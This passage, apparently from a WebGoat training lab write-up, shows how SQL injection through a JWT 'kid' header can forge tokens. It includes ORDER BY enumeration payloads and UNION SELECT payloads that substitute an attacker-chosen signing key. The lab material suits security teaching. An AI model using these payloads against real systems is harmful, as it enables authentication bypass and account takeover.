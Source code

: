 ```
webgoat_key' ORDER BY 1;--    This one works
webgoat_key' ORDER BY 2;--    This one fails -> only one column
```

Since the KID is used to fetch a signing key from a database to verify the tokens signature
on the server-side, it might be possible to inject a custom signing key.
The basic syntax for this would look like this:

```
nonexistant_key' UNION SELECT 'injected_key' FROM 'unknown_table';--
```

To make the development of the exact payload easier, [SQL Fiddle](http://sqlfiddle.com) will be used.
It is enough to roughly simulate what the real database *may* look like, which can be guessed based
on the results of the previous enumeration.

```sql
CREATE TABLE IF NOT EXISTS `Unknown` (
  `kid` varchar(200) NOT NULL,
  `secret` varchar(200) NOT NULL,
  PRIMARY KEY (`kid`)
) DEFAULT CHARSET=utf8;

INSERT INTO `Unknown` (`kid`, `secret`) VALUES ('webgoat_key', 'secret');
```

![SQL Fiddle Database Setup](.img/jwt_sqli_1.png)

While setting up this database does not necessarily help with finding the correct payload, it
can be used to verify that the syntax of any SQL statements is correct.

With this, a statement is crafted that can return a custom string instead of the
database entry associated with the KID `webgoat_id`

```sql
nopynope' UNION SELECT 'mykeynow' FROM INFORMATION_SCHEMA.TABLES;--
```

The corresponding token was created with [jwt.io](https://jwt.io).
